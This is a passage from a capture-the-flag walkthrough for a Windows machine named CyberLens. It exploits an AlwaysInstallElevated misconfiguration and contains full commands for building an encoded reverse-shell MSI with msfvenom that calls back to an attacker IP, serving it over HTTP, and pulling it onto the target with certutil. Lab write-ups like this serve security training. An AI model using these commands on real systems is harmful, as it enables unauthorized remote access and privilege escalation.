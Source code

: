 And we can run it with `winPEASx86.exe` .

We find AlwaysInstalledElevated enabled :

<img src="../../Flameshots/a92575f19d8abfd5964a8256ee4de576.png" alt="a92575f19d8abfd5964a8256ee4de576.png" width="673" height="69" class="jop-noMdConv">

We search it on Internet and find we can install **MSI** files with elevated permissions and exploit the machine with a [[Reverse Shell]] l :

### MsfVenom (TCP RevShell)

We copy our [[Payload]] :

```
┌──(hax㉿HaxonKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.8.162.183 LPORT=4444 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: AlwaysInstallElevated.msi

```

Now we go back to our Target and download it with our [[Server]] :

```
┌──(hax㉿HaxonKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.60.241 - - [12/Jul/2025 13:48:03] "GET /AlwaysInstallElevated.msi HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 13:48:05] "GET /AlwaysInstallElevated.msi HTTP/1.1" 200 -

```

```
C:\Users\CyberLens\Desktop>certutil -urlcache -f http://10.8.162.183:80/AlwaysInstallElevated.msi C:\Users\CyberLens\Desktop\AlwaysInstallElevated.msi                                          
certutil -urlcache -f http://10.8.162.183:80/AlwaysInstallElevated.msi C:\Users\CyberLens\Desktop\AlwaysInstallElevated.msi                                                                     
****  Online  ****                                                                              
CertUtil: -URLCache command completed successfully.

```

